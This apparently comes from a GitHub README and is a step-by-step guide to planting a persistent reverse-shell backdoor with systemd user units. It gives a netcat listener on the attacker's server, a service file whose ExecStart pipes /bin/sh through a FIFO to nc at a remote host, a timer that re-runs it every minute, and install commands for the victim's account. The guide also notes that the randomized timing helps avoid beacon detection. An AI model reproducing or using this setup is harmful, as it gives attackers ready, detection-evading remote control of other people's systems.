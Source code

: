 # Scheduled Reverse Shell

## Description

This sequence of commands sets up a scheduled task, much like the better-known `cron` jobs, to execute
a reverse shell using a FIFO pipe located at `/tmp/backpipe`.

The service file (`revshell.service`) uses:

* The `Environment` directive to set up the remote host and port to connect to
* The `ExecStartPre` directive to check fo the FIFO pipe and create it if it does not exist
* The `ExecStart` directive to execute the backdoor sequence (more info on how it works located in the linked blog below)

## Additional Notes

* The `.timer` file ensures the backdoor gets re-run if the shell drops
* systemd only runs the next scheduled task if the previous task has ended
  * Avoids unnecessary logs
* Tasks will automatically run again if the backdoor ends after the next task was supposed to run
  * systemd will not wait until the timer gets scheduled again
  * e.g. 4.5 minutes after initial run on a per-minute timer

    ```
    [1]       [2]        [3]        [4]          [5]
    run-------skip-------skip-------skip-die-run-skip
    ```

* The `.timer` file will randomize unit execution a bit based on the `AccuracySec` and `RandomizedDelaySec` directives
  * `AccuracySec` is a measure of how accurate systemd must be when executing the associated unit.
    This is done so systemd can attempt to reduce executions that fall within the same time window.
  * `RandomizedDelaySec` randomizes the exact second at which systemd will execute the unit.
    This is done so systemd can minimize the chance many units fire at once and possibly consume too many resources.
    It's also really nice for avoiding beacon detections :)
  * The timer below will first choose a time within the `RandomizedDelaySec`, and then look for a time within `AccuracySec`
    * In reality, this unit will execute sometime between `*:56 - *:05` seconds

## Step by Step

1. Stand up listener on attacker server

```sh
nc -nlvp 4444
```

2. Generate a service file to create the backdoor on the victim

```ini
$ cat revshell.service
; https://www.freedesktop.org/software/systemd/man/systemd.service.html
[Unit]
Description=A simple reverse shell
Documentation=https://github.com/infosec-intern/sneaky-systemd-shit

[Service]
; https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/
Type=simple
Environment=RHOST="10.10.10.10" RPORT="4444"
ExecStartPre=/bin/sh -c "find /tmp/backpipe || mknod --mode=0666 /tmp/backpipe p"
ExecStart=/bin/sh -c "/bin/sh 0</tmp/backpipe | /bin/nc ${RHOST} ${RPORT} 1>/tmp/backpipe"
```

3. Generate a timer file to execute the backdoor at regular intervals (every minute in our case)

```ini
$ cat revshell.timer
; https://www.freedesktop.org/software/systemd/man/systemd.timer.html
[Timer]
AccuracySec=1s
OnCalendar=*-*-* *:*:00
Unit=revshell.service
RandomizedDelaySec=4s
Persistent=true
```

4. Install into the systemd user folder on the victim

```sh
mkdir -p ~/.config/systemd/user/
ln -s `pwd`/revshell.service ~/.config/systemd/user/
ln -s `pwd`/revshell.timer ~/.config/systemd/user/
```

5. Start the scheduled task

```sh
systemctl --user start revshell.timer
```

6. Wait for the shell!

```sh
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [${attacker}] from (UNKNOWN) [${victim}]
```
